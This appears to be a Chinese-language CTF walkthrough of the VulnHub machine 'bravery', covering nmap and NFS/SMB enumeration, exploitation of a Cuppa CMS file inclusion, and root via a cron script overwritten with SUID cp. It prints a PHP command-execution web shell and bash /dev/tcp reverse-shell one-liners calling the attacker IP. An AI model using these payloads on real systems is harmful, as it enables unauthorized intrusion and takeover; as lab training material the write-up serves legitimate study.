

# 前言

靶机：`digitalworld.local-bravery`，IP地址为`192.168.10.8`

攻击：`kali`，IP地址为`192.168.10.6`

`kali`采用`VMware`虚拟机，靶机采用`virtualbox`虚拟机，网卡都为桥接模式

这里官方给的有两种方式，一是直接使用`virtualbox`加载，另一种是通过`VMware`挂载磁盘，也给出了`iso`镜像文件

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载`https://download.vulnhub.com/digitalworld/bravery-improved.7z`
>
> 或者通过网盘下载

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行



# 信息收集

## 使用nmap扫描端口

```shell
nmap -sV -O 192.168.10.8 -p- -T4
```


这是全面扫描，不过尽量更详细一点，先扫描`tcp`端口

```shell
nmap -sT 192.168.10.8 -p- -T4 -oA nmap_tcp
```


扫描`udp`的`top`20端口

```shell
nmap -sU 192.168.10.8 --top-ports 20 -T4
```


这里的`udp`和`tcp`端口处于`open`的无差，所以，采用`tcp`的端口，并进行端口选择

```shell
grep open nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','
```


再对这些端口进行深一步的检测，比如检测服务等

```shell
ports=22,53,80,111,139,443,445,2049,3306,8080,20048,37191,49742
nmap -sV -O -sC -sT 192.168.10.8 -p $ports -oA detail
```


再通过nmap的脚本扫描有无漏洞

```shell
nmap --script=vuln -p $ports -oA vuln
```


根据以上收集的信息，有网站，有`smb`等，那么就一步一步来，大部分靶机都是从`web`开始，一步步推进

## 网站信息收集

### 80端口网站探测

访问80端口的网站，并未有内容，应该是测试网站


查看页面源代码后，也并未有信息，使用浏览器插件`wappalyzer`或者`whatweb`测试该网站，发现具有`php`语言，采用`apache`，与前面`nmap`扫描收集的信息一样

那么针对该80网站进行网站目录爆破，这里采用`gobuster`工具，也可以使用其他工具，很多

```shell
gobuster dir -u http://192.168.10.8 -w /usr/share/wordlists/dirb/big.txt -x php,bak,txt,js,html -b 403-404
```


这里的`/0`到`/9`都只是数字，访问`README.txt`，提示努力


访问`/about`，给出一个链接，并说这里有提示


访问`uploads`，这里虽然有文件夹，但是里面没有任何东西

再访问`phpinfo.php`，但是并不是真正的`phpinfo`界面，是空白

之前给出的链接中，直接访问是不存在的界面，那么进行拼接呢

```shell
http://192.168.10.8/1075692/Try-Harder
或
http://192.168.10.8/1075692
或
http://192.168.10.8/Try-Harder
```

访问后，有一张图片，大概就是说，"还需努力啊，少年！"


既然如此，好嘛，我就转换方向，我去8080网站看看，嘿嘿嘿

### 8080端口网站探测

访问8080端口默认界面


查看页面源代码，也并未发现隐藏信息

使用`gobuster`等工具进行目录爆破

```shell
gobuster dir -u http://192.168.10.8:8080 -w /usr/share/wordlists/dirb/big.txt -x php,bak,txt,js,html -b 403-404
```


先访问`robots.txt`，发现与前面爆破的路径，大部分都是一样的


访问`/cgi-bin`和`404.html`都是一样的界面显示，不过这里也是得知一些信息，为`nignx`管理，并且配置文件的路径也给出了


访问`private`，是以`nginx`默认的403界面显示


访问`public`，是一个常见的网站类型


再次对这个网站进行扫描

```shell
gobuster dir -u http://192.168.10.8:8080/public -w /usr/share/wordlists/dirb/big.txt -x php,bak,txt,js,html -b 403-404
```


发现`mail.php`，不过访问这个文件，是直接下载的，所以可能这个网站对于`php`文件并不能解析

访问`qwertyuiop.html`，发现是一张图片，图片中的英文就是提示

`sometimes,what you seek is hiding in planin sight`


下载图片，然后使用`exiftool、binwalk、steghide`等工具查看是否有隐写内容，测试发现并没有

到这里，对于网站探测已经`over`了，除非就是网站爆破时，字典的问题了

## nfs探测

在之前，使用`nmap`扫描的时候，发现`rpcbind`和`nfs`，一般这两个都是搭配使用的

那么使用`nmap`的脚本再进行一次探测

```shell
nmap 192.168.10.8 --script=nfs*
```


有东西，那么进一步深入，使用`showmount`查看

```shell
showmount -e 192.168.10.8
```


可以看到，目标靶机确实是有，那么尝试直接挂载到`kali`进行测试是否可行

```shell
mkdir share
mount -t nfs 192.168.10.8:/var/nfsshare ./share
```


但是我查看了所有文件的内容，文件里面的内容，并没有任何有价值的

直到我再次查看，发现`qwertyuioplkjhgfdsazxcvbnm`这个文件有意思，结合前面`password.txt`以及其本身的内容来看，我怀疑这是一个密码


## smb探测

前面也是有相关的`smb`服务的开启，所以，需要进一步进行探测的

使用`nmap`中的脚本探测

```shell
nmap 192.168.10.8 --script=smb*
```

枚举出三个分享`IPC$、anonymous、secured`


枚举出`anonymous`分享中，有内容


枚举出两个用户`david、rick`


再使用`enum4linux`枚举一下

```shell
enum4linux 192.168.10.8 -a
```

枚举出两个用户，与前面使用`nmap`一样


枚举出三个分享，也是和前面使用`nmap`出的结果一样


## 信息总结

当前获取到的信息有

1. `nfs`中的一个可能疑似密码的东西
2. `smb`枚举出的三个分享以及两个用户
3. 网站中并未有明显信息，目前来看，需要从`smb`着手

密码`qwertyuioplkjhgfdsazxcvbnm`

分享`anonymous、secured`

用户`david、rick`


# 漏洞寻找

根据前面的信息，尝试连接`smb`中的分享，可以使用`smbclient`或者`smbmap`都可以

```shell
smbclient //192.168.10.8/anonymous -N
#-N  是指不使用密码登录，也就是以匿名形式登录
```


因为`readme.txt`是英文，为了方便，翻译一下，表示这是一个临时的服务，这种情况在现实中确实有，不过这需要很长的潜伏


然后再次以登录身份进行测试`anonymous`，发现也是一样的东西

```shell
#密码  qwertyuioplkjhgfdsazxcvbnm
smbclient //192.168.10.8/anonymous -U david	#成功登录
smbclient //192.168.10.8/anonymous -U rick	#无法成功登录
```

那么换另一个分享`secured`，这里想匿名登录是失败的

```shell
#密码 qwertyuioplkjhgfdsazxcvbnm
smbclient //192.168.10.8/secured -U david	#成功登录
smbclient //192.168.10.8/secured -U rick	#无法成功登录
```


获取三个文件，下载到`kali`，然后查看内容

查看`README.txt`文件，这里明确提出了`CMS`，并且还搞出个单词`goodtech`


查看`david.txt`，提到域名，以及一个`php`的文件路径


查看`genevieve.txt`文件，这里的信息提到一个地址`http://192.168.254.155/genevieve`


根据上面收集的信息，构造一些网站的可能性，这里是不包括绑定域名的情况

```shell
http://192.168.10.8/devops/directortestpagev1.php
http://192.168.10.8:8080/devops/directortestpagev1.php

http://192.168.10.8/genevieve
http://192.168.10.8:8080/genevieve
```

先尝试一下，发现访问成功一个，看网站的样子，应该是还在搭建中


把能点的都点了，发现基本上都是页面不存在，不过发现一个功能，点击后，跳转到登录界面


可以看到是`CMS`


以前面获取的信息，尝试进行登录，发现不行，包括刚获取的`goodtech`，把所有信息进行拼接，得出的用户名和密码，都无法登录，并且测试登录框，应该不存在注入

# 漏洞利用

那么使用`searchsploit`搜索，有无该CMS的漏洞`cuppa`

```shell
searchsploit cuppa
```


查看文档，发现用法，并且是文件包含，这个应该是`cms`构建时的代码原因


测试路径，并且确定是否可用，确实可以


那么就在`kali`本地创建一个`php`文件，使得其远程包含该文件，然后导致反弹`shell`

这里先写一个简单的`php`代码，可执行`system`的命令

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

把这个代码写入`shell.php`文件，然后再`kali`中，使用`python`开启一个`http`服务，观察是否可行

**注意，一定不要把`kali`中的`http`服务关闭，因为远程代码执行需要调用的**


可以看到，我们的代码确实通过远程执行了，所以这里就直接通过传参`cmd`反弹`shell`

```shell
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#需要进行url编码
bash%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.10.6%2f9999%200%3e%261
```


# 提权

## 靶机内信息收集

查看网络连接

```shell
ss -antlp
```


查看`ip`地址，确定当前是否处在虚拟环境，确实未处于虚拟环境

```shell
ip add
```


查看以`root`的进程

```shell
ps aux | grep root
```


查看内核版本以及系统版本

```shell
uanme -a/-r
cat /etc/issue
cat /etc/*release
```


使用`find`寻找具有SUID权限的文件

```shell
find - perm -u=s -type f 2>/dev/null
```


查看定时任务

```shell
cat /etc/crontab
```


查看网站中的配置文件，发现连接数据库的用户名和密码，并且以`root`连接的


瞬间就让人想到`udf`提权，不过还是需要进一步验证

查看相关配置，可能确实可以`udf`提权


不过再尝试进行`dumpfile`时，这个是被拒绝了，还是不能`udf`提权


上传一些脚本检测吧，上传`pspy64`，执行后发现，有一个脚本每5分钟执行一次


## 定时任务提权

已知，有脚本定时以`root`身份执行，并且在前面寻找SUID权限文件时，有`cp`命令，那么就可以创建一个反弹`shell`的脚本，使用`cp`覆盖原本的定时任务，就可以获得一个`root`的反弹`shell`

```shell
#先在kali开启监听
nc -lvnp 1234

#然后执行命令
cd /tmp		#这里可以创建文件
echo "/bin/bash -i >& /dev/tcp/192.168.10.6/1234 0>&1" > 1.sh
cat 1.sh	#确保反弹shell命令写入
/usr/bin/cp 1.sh /var/www/maintenance.sh	#开始使用具有SUID权限的cp进行覆盖
ls -l /var/www		#确保只有一个文件，也就是确保覆盖
cat /var/www/maintenance.sh		#再次确认，内容是否修改
```


等待一会，即可发现，获取到`root`的`shell`，这个时间大概5分钟


# 总结

该靶机考察几点：

1. 对于众多信息，要一步步去筛选，不要急躁。这里的网站信息刚开始可能确实没有，所以不要急躁
2. 对于`nfs`这个要稍微了解，建议去`ai`搜索一下，这个经常配合`rpcbind`出现，并且，靶机内一般都是与`showmount`和挂载有关
3. 对于`smb`服务，要会枚举，这里可以借助`nmap`的脚本，或者`enum4linux`或其他工具；枚举出之后，要会找到有用的信息，这里也就是**密码**的关键寻找
4. 对于信息，要敏感，比如，如果是目录型网站，出现类似于目录的时候，要会拼接，这里因为出现的少，所以手工拼接即可，若是很多，要会自动化处理，也就是使用代码拼接目录，再通过工具批处理，选出可用的链接
5. 对于提权，这里在获取到的平常信息，都无法提权时，可以借助工具观察，因为不可能每时每刻观察进程的命令，这也可能不显示
6. 提权，要思路广，结合起来，这里就是想起`cp`命令来覆盖`root`执行的定时任务脚本


